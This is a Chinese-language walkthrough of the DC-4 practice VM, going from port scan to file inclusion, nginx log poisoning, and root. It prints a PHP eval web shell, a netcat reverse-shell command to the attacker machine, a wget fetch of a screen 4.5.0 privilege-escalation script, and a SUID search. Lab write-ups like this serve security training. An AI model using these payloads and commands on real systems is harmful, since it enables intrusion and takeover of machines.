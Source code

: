 
# 0x00环境

攻击机：kali（192.168.1.28）

靶机：DC-4（192.168.1.13）


# 0x01实战


## 端口扫描

```
nmap -sV -A -p- 192.168.1.13
```

![image-20220111145130914.png](./assets/1652256425733-57ef87bc-e21c-43c6-b83e-380936cec577.png)

开放了80端口HTTP服务


## 目录扫描

![image-20220111145325177.png](./assets/1652256433512-75de8e9d-7b49-4793-bb94-612948f3f679.png)

找到一个特殊的页面footer.php内容会随着页面刷新而改变

![image-20220111145505984.png](./assets/1652256437596-7bc83e99-b9f4-41d0-8702-43269fd3f11e.png)

![image-20220111145513169.png](./assets/1652256440467-d0f2e0c2-ab29-4542-b257-ec803bbfc953.png)


## 漏洞发现

在浏览80端口HTTP服务的时候发现在Contact页面留言提交后显示的页面底部内容会随着页面的刷新而改变

![image-20220111145734632.png](./assets/1652256443937-93531657-d2f7-4a90-85bb-e2b3cd967332.png)

![image-20220111145750479.png](./assets/1652256447546-91dfc7f0-3411-4a6d-bcfe-0bb870988201.png)

这种情况与我们前面发现的footer.php页面相同，想到可能是hankyou.php页面包含了footer.php页面，存在文件包含漏洞

访问/etc/passwd文件测试是否存在文件包含漏洞

![image-20220111150248872.png](./assets/1652256451650-aa002bfb-6b9d-4a37-b9e5-9bfda52321d8.png)

存在文件包含漏洞


## 漏洞利用

通过前面的端口扫描我们可以知道靶机的环境是使用nginx搭建的，而nginx在网站上的每一步操作都将会被写入日志文件log(/var/log/nginx/access.log)内，因此我们可以通过log来拿 shell

使用burpsuite抓包修改请求，写入phpinfo()测试是否可以包含成功

![image-20220111151336326.png](./assets/1652256455801-7c57aaee-b94f-46cd-b1ec-1edd4243f957.png)

成功

![image-20220111151619526.png](./assets/1652256459471-da82337b-f449-4e78-9541-194326d6bda2.png)

上传一句话木马

```
<?php @eval($_POST['XMTX']);?>
```

![image-20220111153318647.png](./assets/1652256463083-d12e17a2-9ef4-4e59-84b8-3b2b53bb5aaa.png)

使用蚁剑链接

![image-20220111153522272.png](./assets/1652256466733-d3443dc5-fa4c-443b-b7d8-be675fb96862.png)


## 反弹shell

创建监听

```
nc -vnlp 4444
```

![image-20220111153832261.png](./assets/1652256471287-7b6f529c-54fd-42dd-9f76-057ce1883dcd.png)

使用nc反弹shell到攻击机

```
nc 192.168.1.28 4444 -e /bin/bash
```

![image-20220111153927518.png](./assets/1652256474597-7198f713-9f6d-4ff5-904e-23c32ee6f62b.png)

成功反弹shell

![image-20220111154045297.png](./assets/1652256477935-2b9c9986-02f8-4cfe-a8a0-2214daf91c40.png)

查找具有root权限的命令

```
find / -perm -u=s -type f 2>/dev/null
```

![image-20220111154138860.png](./assets/1652256481763-69566178-3f58-4984-ad53-9e5bff5ce1f5.png)

可以看到存在screen 4.5.0，在互漏洞库中找到[Screen 4.5.0 存在本地权限提升漏洞](https://www.exploit-db.com/exploits/41154)

![image-20220111154558491.png](./assets/1652256485066-81eed817-acd5-4d21-98db-858209567dd8.png)


## 提权

**说明：在这一部分网上的很多教程都是使用kali上的提权脚本，然后说脚本有问题将提权脚本拆分为三份进行提权，DC官网也是说脚本有问题，千篇一律。在这里我是使用 **[**https://www.exploit-db.com**](https://www.exploit-db.com)** 上的提权脚本，并没有什么问题。之后我对比两个脚本，内容都是一样的，我又搭建新靶场使用kali上的提权脚本也能成功提权。凡事要多思考，照着别人的步骤来对自己有什么提升呢？**

将脚本文件下载到攻击机，通过vi查看发现格式为windows的dos格式<br />![image-20220111162250058.png](./assets/1652256562234-b97309dd-3030-4596-a4f4-9ce4191bc5bf.png)


将脚本文件转换为linux格式
```
dos2unix 41154.sh
```
![image-20220111162330818.png](./assets/1652256566052-4d1af8c0-b1c7-4446-a294-31ca77b29e31.png)

攻击机开启HTTP服务
```
python3 -m http.server
```
![image-20220111160846214.png](./assets/1652256489619-cba09f93-8139-4f81-a509-90b2b3695f47.png)


下载脚本到靶机的tmp目录下（因为tmp权限为777）（也可以使用前面的蚁剑上传提权脚本）
```
wget http://192.168.1.28:8000/41154.sh
```
![image-20220111161013441.png](./assets/1652256538282-13be2f18-b8c7-44af-8abe-fe5a54b6fb29.png)


赋予脚本执行权限并执行，成功得到root权限<br />![image-20220111162553225.png](./assets/1652256568936-b35f4e40-17b9-47ff-a693-49efe2bdcadb.png)


## final-flag

在root根目录下找到flag文件

![image-20220111162705093.png](./assets/1652256574804-5a21f992-a662-4576-8cad-cb565482766b.png)
